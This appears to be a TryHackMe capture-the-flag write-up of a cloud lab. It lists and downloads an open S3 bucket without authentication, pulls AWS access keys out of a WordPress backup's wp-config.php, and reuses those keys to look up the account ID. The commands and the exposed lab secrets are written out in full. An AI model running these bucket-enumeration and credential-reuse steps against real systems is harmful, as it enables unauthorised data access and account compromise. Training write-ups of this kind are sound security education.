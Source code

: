 ```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ aws s3 ls s3://images.bestfestivalcompany.com --no-sign-request

2021-11-13 16:06:51       6148 .DS_Store
2021-11-13 13:43:03     108420 0vF39p3.png
2021-11-27 12:55:21     705191 AWSConsole.png
2021-11-13 13:43:03       5652 aws-logo.png
2021-11-13 16:06:51         68 flag.txt
2021-11-13 16:06:51    2349068 flyer.png
2021-11-13 13:43:03      92531 presents.jpg
2021-11-13 13:43:03       4680 tree.png
2021-11-24 00:52:22   16556739 wp-backup.zip
```

there seems to be a couple of intresting files, lets download them and analyze further:

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme/day17]
└─$ aws s3 cp s3://images.bestfestivalcompany.com/ ./ --recursive --no-sign-request                             2 ⨯
download: s3://images.bestfestivalcompany.com/flag.txt to ./flag.txt
download: s3://images.bestfestivalcompany.com/aws-logo.png to ./aws-logo.png
download: s3://images.bestfestivalcompany.com/.DS_Store to ./.DS_Store
download: s3://images.bestfestivalcompany.com/tree.png to ./tree.png
download: s3://images.bestfestivalcompany.com/presents.jpg to ./presents.jpg
download: s3://images.bestfestivalcompany.com/0vF39p3.png to ./0vF39p3.png
download: s3://images.bestfestivalcompany.com/AWSConsole.png to ./AWSConsole.png
download: s3://images.bestfestivalcompany.com/flyer.png to ./flyer.png
download: s3://images.bestfestivalcompany.com/wp-backup.zip to ./wp-backup.zip
```

contents of `flag.txt` : `It's easy to get your elves data when you leave it so easy to find!`

the interesting file we want to investigate more is: `wp-backup.zip`

unzip the `wp-backup.zip` file and go through the files. Inside the unpacked folder is a file called `wp-config.php` and it has some juicy credentials: 

```php
/* Add any custom values between this line and the "stop editing" line. */
define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
define('S3_UPLOADS_SECRET', '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');
define('S3_UPLOADS_REGION', 'us-east-1');
```

AWS Access Key ID: `AKIAQI52OJVCPZXFYAOI`

Finding the AWS Account ID the access-key works with: 
```shell 
┌──(kryssar㉿kali)-[/mnt/…/tryhackme/day17/wp_backup/wp-admin]
└─$ aws configure --profile thm-day17

AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]:

aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI--profile thm-day17
{
    "Account": "019181489476"
}
```
